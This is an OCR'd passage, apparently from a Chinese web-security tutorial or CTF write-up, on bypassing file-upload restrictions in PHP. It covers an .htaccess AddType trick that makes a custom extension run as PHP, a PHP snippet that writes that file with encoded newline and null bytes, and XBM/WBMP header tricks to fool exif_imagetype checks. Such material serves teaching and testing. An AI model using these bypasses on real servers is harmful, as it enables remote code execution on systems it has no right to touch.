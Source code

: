
```
（1）
AddT
ype application/x-httpd-php .abc #
asdf 
asdf

该.htaccess文件是可以生效的

```

```
（2）
&lt;?php
$data = urldecode('AddType application/x-httpd-php .abc%0a%00asdf');
file_put_contents('.htaccess', $data);

```

> 
三、文件格式检测<br/> 如果使用exif_imagetype检测上传的文件的第一个字节来判断文件类型，那么只要是图像格式以#或0x00开头便可绕过<br/> （1）使用XBM图像，使用PHP生成图像（需安装GD库）<br/> （2）使用WBMP图像，使用PHP生成图像


```
（1）
&lt;?php
// 创建空白图像并添加文字
$im = imagecreatetruecolor(120, 20);
$text_color = imagecolorallocate($im, 233, 14, 91);
imagestring($im, 1, 5, 5,  'A Simple Text String', $text_color);

// 保存图像
imagexbm($im, '1.png');

// 释放内存
imagedestroy($im);
?&gt;

```

```
那么可以在.htaccess前面加上：（1_png_width以及1_png_height是根据文件名进行拼接生成的）

#define 1_png_width 120
#define 1_png_height 20

便可绕过对文件格式的检测

```

```
（2）
&lt;?php
$img = imagecreatetruecolor(20, 20);
imagewbmp($img, '1.wbmp');
?&gt;

```
